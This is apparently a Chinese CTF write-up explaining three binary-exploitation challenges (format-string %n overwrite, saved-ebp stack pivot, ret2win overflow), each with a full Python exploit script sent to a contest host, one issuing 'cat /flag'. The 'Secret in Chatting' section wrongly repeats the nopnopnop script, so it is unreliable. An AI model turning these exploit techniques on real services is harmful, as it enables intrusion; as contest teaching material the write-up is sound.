


## ezstring

本题的漏洞是格式化字符串漏洞



思路就是：只要合理的控制字符串的输出，就可以利用%n对check修改数据，实现进入win函数的目的。

题目给的值是 0xdeadbeef,由于一次性输出0xdeedbeef的字符过大
可以分两段输入给check ==> 0xdead 0xbeef

因为程序是小端序，所以低位在低地址，高位在高地址，因此需要：

[check + 0] 写入 0xbeef
[check + 2] 写入 0xdead

这里附上check的地址


第一段

%1$0xbeefc ==> %1$48879c

第二段

%1$(0xdead-0xbeef)c ==> %1$(57005-48879)c ==> %1$8126c

结合在一起就是

%1$48879c%1$8126c

此时我们还需要伪造参数并写入数据

即%1$48879c + {%参数1的位置$hn} + %1$8126c + {%参数2的位置$hn}

我们还需定位printf参数的位置。一般字符串不长，我们估计参数也就两位数，先不如写成：

%1$48879c + {%xx$hn} + %1$8126c + {%xx的位置$hn}

%1$48879c%xx$hn%1$8126c%xx$hn

共计29字节，

在 64 位 Linux 程序中，前几个参数会优先通过寄存器传递，而本题测试发现，buf + 0x00 对应 printf 的第 6 个参数。由于 64 位地址占 8 字节，因此后续每 8 字节对应一个参数位置：

buf + 0x00	→	第 6 个参数
buf + 0x08	→	第 7 个参数
buf + 0x10	→	第 8 个参数
buf + 0x18	→	第 9 个参数
buf + 0x20	→	第 10 个参数
buf + 0x28	→	第 11 个参数

于是向上补齐到32字节，此时[buf + 0]to[buf + 31] 为格式化字符串，占用了参数6to参数9的位置

于是我们只需再加两个参数10,11用于存放[check + 0]和[check + 2]的地址

于是得到
%1$48879c%10$hn%1$8126c%11$hnAAA + p64(0x4040cc) + p64(0x4040ce)


所以有了以下代码：
```python
import socket
import struct
import re

HOST = "ctf-2.xeed.run"
PORT = 31756

def p64(x):
    return struct.pack("<Q", x)

check = 0x4040cc

fmt = b"%1$48879c%10$hn%1$8126c%11$hn"

payload = fmt
payload += b"A" * (32 - len(payload))
payload += p64(check)
payload += p64(check + 2)

print("[+] payload length:", len(payload))

s = socket.create_connection((HOST, PORT), timeout=8)

banner = s.recv(4096)
print(banner.decode(errors="ignore"))

s.sendall(payload + b"\n")

data = b""
s.settimeout(5)

while True:
    try:
        chunk = s.recv(4096)
        if not chunk:
            break
        data += chunk
    except socket.timeout:
        break

m = re.search(rb"(flag\{[^}]+\}|A1CTF\{[^}]+\})", data)
if m:
    print("[+] FLAG:", m.group(1).decode())
else:
    print(data[-3000:].decode(errors="ignore"))
```

flag:



## baseh

本题的思路：

这里是主逻辑函数：



这里粗略看了一下输入，没发现问题，然后绕了一圈定位到了auth函数



这里发现auth函数中局部变量v4有漏洞：



于是可以通过修改auth函数要返回的ebp，让auth函数返回时，ebp跳转到input的地址上。

然后在input上构造这样的假栈：



即可让程序在main执行ret后，让esp指向input假栈中的correct地址，从而让eip跳转correct，即执行correct函数

代码：
```python
import socket
import struct
import base64
import time

HOST = "ctf-2.xeed.run"
PORT = 31679

def p32(x):
    return struct.pack("<I", x)

correct = 0x0804925f
bss_buf = 0x0811eb40

raw = p32(0xdeadbeef)
raw += p32(correct)
raw += p32(bss_buf)

payload = base64.b64encode(raw)

print("[+] raw payload:", raw.hex())
print("[+] base64 payload:", payload.decode())

s = socket.create_connection((HOST, PORT), timeout=8)

data = s.recv(4096)
print(data.decode(errors="ignore"))

s.sendall(payload + b"\n")

time.sleep(0.5)

# 拿到 shell 后尝试读 flag
s.sendall(b"cat /flag 2>/dev/null; cat flag* 2>/dev/null\n")

time.sleep(0.5)

try:
    while True:
        data = s.recv(4094096)
        if not data:
            break
        print(data.decode(errors="ignore"), end="")
except:
    pass
```



## nopnopnop

这一题也是栈溢出，程序会输出Target,解析后向Buffer输入字符覆盖返回地址跳转即可，代码如下：

代码：
```python
import socket
import struct
import re
import time

HOST = "ctf-2.xeed.run"
PORT = 30087

offset = 0x108

def recv_until(s, mark=b">"):
    data = b""
    while mark not in data:
        chunk = s.recv(1)
        if not chunk:
            break
        data += chunk
    return data

s = socket.create_connection((HOST, PORT), timeout=10)
s.settimeout(8)
s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)

banner = recv_until(s, b">")
print(banner.decode(errors="ignore"), end="")

m = re.search(rb"Target:\s*(0x[0-9a-fA-F]+)", banner)
if not m:
    print("\n[-] 没找到 Target")
    exit()

target = int(m.group(1), 16)
ret_gadget = target - 1   # 0x40127a: ret

print(f"\n[+] target     = {hex(target)}")
print(f"[+] ret gadget = {hex(ret_gadget)}")

payload = b"A" * offset
payload += struct.pack("<Q", ret_gadget)
payload += struct.pack("<Q", target)
payload += b"\n"

print(f"[+] payload length = {len(payload)}")
print("[+] sending aligned ret2win payload...")

s.sendall(payload)

# 不要 shutdown
time.sleep(0.5)

out = b""
while True:
    try:
        chunk = s.recv(4096)
        if not chunk:
            break
        out += chunk
    except socket.timeout:
        break

print(out.decode(errors="ignore"), end="")
s.close()
```



## Secret in Chatting

<folder style="3">

这一题也是栈溢出，程序会输出Target,解析后向Buffer输入字符覆盖返回地址跳转即可，代码如下：

代码：
```python
import socket
import struct
import re
import time

HOST = "ctf-2.xeed.run"
PORT = 30087

offset = 0x108

def recv_until(s, mark=b">"):
    data = b""
    while mark not in data:
        chunk = s.recv(1)
        if not chunk:
            break
        data += chunk
    return data

s = socket.create_connection((HOST, PORT), timeout=10)
s.settimeout(8)
s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)

banner = recv_until(s, b">")
print(banner.decode(errors="ignore"), end="")

m = re.search(rb"Target:\s*(0x[0-9a-fA-F]+)", banner)
if not m:
    print("\n[-] 没找到 Target")
    exit()

target = int(m.group(1), 16)
ret_gadget = target - 1   # 0x40127a: ret

print(f"\n[+] target     = {hex(target)}")
print(f"[+] ret gadget = {hex(ret_gadget)}")

payload = b"A" * offset
payload += struct.pack("<Q", ret_gadget)
payload += struct.pack("<Q", target)
payload += b"\n"

print(f"[+] payload length = {len(payload)}")
print("[+] sending aligned ret2win payload...")

s.sendall(payload)

# 不要 shutdown
time.sleep(0.5)

out = b""
while True:
    try:
        chunk = s.recv(4096)
        if not chunk:
            break
        out += chunk
    except socket.timeout:
        break

print(out.decode(errors="ignore"), end="")
s.close()
```

</folder>


| 题目类型 | 题目名 | 难度 |
| :--- | :--- | :--- |
| Crypto | dlp | Normal |
| Reverse | Assembly_recovery | Normal |
| 第二天 |||
| Blockchain | CVE-2025-55182 | Normal |
| Reverse | nyah | Normal |
| Crypto | double_crypto | Easy |
| Misc | 我是谁? | Easy |
| Forensics | Secret in Chatting | Hard |
| 第三天 |||
| Reverse | 入 | Easy |
| Misc | 猜猜数字喵 | Hard |
